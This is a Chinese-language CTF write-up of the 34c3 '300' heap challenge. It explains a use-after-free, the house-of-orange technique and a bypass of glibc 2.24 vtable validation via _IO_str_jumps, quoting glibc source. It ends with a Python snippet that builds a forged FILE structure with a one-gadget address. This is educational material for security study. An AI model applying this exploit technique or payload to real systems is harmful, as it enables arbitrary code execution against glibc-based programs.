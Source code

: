 #34c3 300 writeup  &  libc 2.24 house of orange  exploits


## 1.题目简述

先来简单看下34c3 300这道题。程序保护全开。
题目的情景很简单：
allocs 是.bss段上的一个数组
allocs[0-9]   

alloc_it函数
allocs[a1]=0x300

write_it函数  
向allocs[a1]  写0x300个字符

Print_it就打印
需要注意的是myputs函数。

```c
ssize_t __fastcall myputs(const char *a1)
{
  size_t v1; // rax
  v1 = strlen(a1);
  write(1, a1, v1);
  return write(1, &unk_BD4, 1uLL);
}
```

也就是说遇到0x00就截断了,这里泄露堆地址时要注意，堆基址的最后一个字节是\x00
free_it函数仅仅是free  没有清0。
这道题可以用house  of  orange去利用。
那么就要想办法去溢出，覆写unsort bin。
因为这里存在一个UAF，那么可以通过污染unsort bin的bk去实现溢出。
污染unsort bin 有size的检查 且会遍历整个链表进行检查。


## 2.house of orange 介绍

这里不详细描述，给出几个链接：

[how2heap](https://github.com/shellphish/how2heap/blob/master/house_of_orange.c)

[hitcon](http://4ngelboy.blogspot.ca/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

## 3.libc 2.24对虚表的加固

先看一哈传说中的`__IO_list_all` 指针：

```c
struct _IO_FILE_plus *_IO_list_all = &_IO_2_1_stderr_;

```
然后

```c
322	struct _IO_FILE_plus
323	{
324	  _IO_FILE file;
325	  const struct _IO_jump_t *vtable;
326	};
```
然后

```c
747	int
748	_IO_flush_all_lockp (int do_lock)
749	{
750	  int result = 0;
751	  struct _IO_FILE *fp;
752	
753	#ifdef _IO_MTSAFE_IO
754	  _IO_cleanup_region_start_noarg (flush_cleanup);
755	  _IO_lock_lock (list_all_lock);
756	#endif
757	
758	  for (fp = (_IO_FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
759	    {
760	      run_fp = fp;
761	      if (do_lock)
762	        _IO_flockfile (fp);
763	
764	      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
765	           || (_IO_vtable_offset (fp) == 0
766	               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
767	                                    > fp->_wide_data->_IO_write_base))
768	           )
769	          && _IO_OVERFLOW (fp, EOF) == EOF)
770	        result = EOF;
771	
772	      if (do_lock)
773	        _IO_funlockfile (fp);
774	      run_fp = NULL;
775	    }
776	
777	#ifdef _IO_MTSAFE_IO
778	  _IO_lock_unlock (list_all_lock);
779	  _IO_cleanup_region_end (0);
780	#endif
781	
782	  return result;
783	}
```
然后就是调用 `_IO_OVERFLOW`函数，看看它是怎定义的：

```c
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)

#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))
```
也就是说会检查虚表，look是怎么check的：

```c
865	static inline const struct _IO_jump_t *
866	IO_validate_vtable (const struct _IO_jump_t *vtable)
867	{
868	  /* Fast path: The vtable pointer is within the __libc_IO_vtables
869	     section.  */
870	  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
871	  const char *ptr = (const char *) vtable;
872	  uintptr_t offset = ptr - __start___libc_IO_vtables;
873	  if (__glibc_unlikely (offset >= section_length))
874	    /* The vtable pointer is not in the expected section.  Use the
875	       slow path, which will terminate the process if necessary.  */
876	    _IO_vtable_check ();
877	  return vtable;
878	}
```

会检查是不是在 `__libc_IO_vtables` section里，这个section有好多表：

```c
469	extern const struct _IO_jump_t _IO_file_jumps;
470	libc_hidden_proto (_IO_file_jumps)
471	extern const struct _IO_jump_t _IO_file_jumps_mmap attribute_hidden;
472	extern const struct _IO_jump_t _IO_file_jumps_maybe_mmap attribute_hidden;
473	extern const struct _IO_jump_t _IO_wfile_jumps;
474	libc_hidden_proto (_IO_wfile_jumps)
475	extern const struct _IO_jump_t _IO_wfile_jumps_mmap attribute_hidden;
476	extern const struct _IO_jump_t _IO_wfile_jumps_maybe_mmap attribute_hidden;
477	extern const struct _IO_jump_t _IO_old_file_jumps attribute_hidden;
478	extern const struct _IO_jump_t _IO_streambuf_jumps;
479	extern const struct _IO_jump_t _IO_old_proc_jumps attribute_hidden;
480	extern const struct _IO_jump_t _IO_str_jumps attribute_hidden;
481	extern const struct _IO_jump_t _IO_wstr_jumps attribute_hidden;
```
文件的`vtable`使用的是`_IO_file_jumps`。
在libc2.23里，因为没有对虚表的检查，可以任意修改虚表指针到一个伪造的虚表。
但libc2.24失效了。

## 4.bypass the check of libc2.24

libc2.24的检查没有严格到具体的某个地址，只是要求在一个section里。
那么如果我们改写vtable到other vtable（也在这个section里）会如何？

有一个有意思的vtable -- `_IO_str_jumps` 。
它的overflow函数是这样的：

```c
80	int
81	_IO_str_overflow (_IO_FILE *fp, int c)
82	{
83	  int flush_only = c == EOF;
84	  _IO_size_t pos;
85	  if (fp->_flags & _IO_NO_WRITES)
86	      return flush_only ? 0 : EOF;
87	  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
88	    {
89	      fp->_flags |= _IO_CURRENTLY_PUTTING;
90	      fp->_IO_write_ptr = fp->_IO_read_ptr;
91	      fp->_IO_read_ptr = fp->_IO_read_end;
92	    }
93	  pos = fp->_IO_write_ptr - fp->_IO_write_base;
94	  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
95	    {
96	      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
97	        return EOF;
98	      else
99	        {
100	          char *new_buf;
101	          char *old_buf = fp->_IO_buf_base;
102	          size_t old_blen = _IO_blen (fp);
103	          _IO_size_t new_size = 2 * old_blen + 100;
104	          if (new_size < old_blen)
105	            return EOF;
106	          new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
107         ....
```
看`new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);`的意思是调用类似malloc的函数去申请一块新的缓冲区，那么可以看下相关的结构体：

```c
32	typedef void *(*_IO_alloc_type) (_IO_size_t);
33	typedef void (*_IO_free_type) (void*);
34	
35	struct _IO_str_fields
36	{
37	  _IO_alloc_type _allocate_buffer;
38	  _IO_free_type _free_buffer;
39	};
40	
46	struct _IO_streambuf
47	{
48	  struct _IO_FILE _f;
49	  const struct _IO_jump_t *vtable;
50	};
51	
52	typedef struct _IO_strfile_
53	{
54	  struct _IO_streambuf _sbf;
55	  struct _IO_str_fields _s;
56	} _IO_strfile;
```
这里就是问题的关键所在，`_IO_strfile`会扩展`_IO_FILE`这个结构体，把`vtabel`后面的value当做是alloc和free的函数指针。

`_IO_str_jumps -  _IO_file_jumps= 0xc0 = sizeof(_IO_strfile_)`
2张表应该是紧挨着的。

## 5.300 wp的核心部分

```c
jump_table_addr = libc_base + libc.symbols['_IO_file_jumps'] + 0xc0

# Overwrite size to fall in small bin range for house of orange
file_struct = p64(0) + \
          p64(0x61) + \
          p64(libc_leak) + \
          p64(io_list_all_addr - 0x10) + \
          p64(2) + \
          p64(3)
file_struct = file_struct.ljust(0xd8, "\x00")
file_struct += p64(jump_table_addr)
file_struct += p64(libc_base + 0x4557a)
```

因为
`extern const struct _IO_jump_t _IO_str_jumps attribute_hidden;`
所以它在libc的符号表里找不到，只能通过`libc.symbols['_IO_file_jumps'] + 0xc0`的方式获得。

## 6. ref
[300 write_up](https://github.com/DhavalKapil/ctf-writeups/blob/master/34c3ctf-2017/300/exploit.py)
[hctf babyprintf](http://simp1e.leanote.com/post/Hctf-2017-babyprintf)
[github](https://github.com/DhavalKapil/dhavalkapil.github.io/blob/0ed651d27bc0961a8664b6111359c6d82997c4a6/_posts/2018-01-12-FILE-Structure-Exploitation.md)



